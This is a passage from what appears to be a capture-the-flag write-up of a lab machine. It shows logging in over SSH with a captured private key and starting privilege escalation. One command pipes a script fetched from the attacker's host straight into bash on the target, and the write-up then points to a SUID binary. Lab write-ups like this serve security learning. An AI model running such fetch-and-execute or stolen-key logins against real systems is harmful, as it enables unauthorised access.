 ```

We copy the key to our machine, give it the right permission and connect with it.

```
┌─[]─[10.9.4.213]─[sirius@parrot]─[~/ctf/thm/publisher]                                                                                                                                                            
└──╼ [★]$ ssh -i id_rsa think@10.10.16.40                                                                                                                                                                          
The authenticity of host '10.10.16.40 (10.10.16.40)' can't be established.                                                                                                                                         
ED25519 key fingerprint is SHA256:Ndgax/DOZA6JS00F3afY6VbwjVhV2fg5OAMP9TqPAOs.                                                                                                                                     
This key is not known by any other names.                                                                                                                                                                          Are you sure you want to continue connecting (yes/no/[fingerprint])? yes                                                                                                                                           
Warning: Permanently added '10.10.16.40' (ED25519) to the list of known hosts.                                                                                                                                     
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-169-generic x86_64)                                                                                                                                                 
                                                                                                                                                                                                                   
 * Documentation:  https://help.ubuntu.com                                                                                                                                                                         
 * Management:     https://landscape.canonical.com                                                                                                                                                                 
 * Support:        https://ubuntu.com/advantage                                                                                                                                                                    

  System information as of Mon 30 Sep 2024 11:10:05 AM UTC

  System load:  0.08              Users logged in:                  0
  Usage of /:   75.8% of 9.75GB   IPv4 address for br-72fdb218889f: 172.18.0.1
  Memory usage: 16%               IPv4 address for docker0:         172.17.0.1
  Swap usage:   0%                IPv4 address for eth0:            10.10.16.40
  Processes:    175

  => There is 1 zombie process.


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Feb 12 20:24:07 2024 from 192.168.1.13
think@publisher:~$

```

### think -> root ###


The intended way
I tried uploading linpeas but I got permission denied, so I just piped it to bash

```
curl 10.10.10.10/linpeas.sh|bash
```

![image](https://github.com/user-attachments/assets/829224f7-7509-49c4-8d18-a0fc50ab09f6)



We found an unknown binary with SUID bit.

We also see the apparmor is running which is likely to be the reason I wasn’t able to upload linpeas.


![image](https://github.com/user-attachments/assets/1cbef48a-ec8d-4c58-bd13-c17527ee8e0b)



```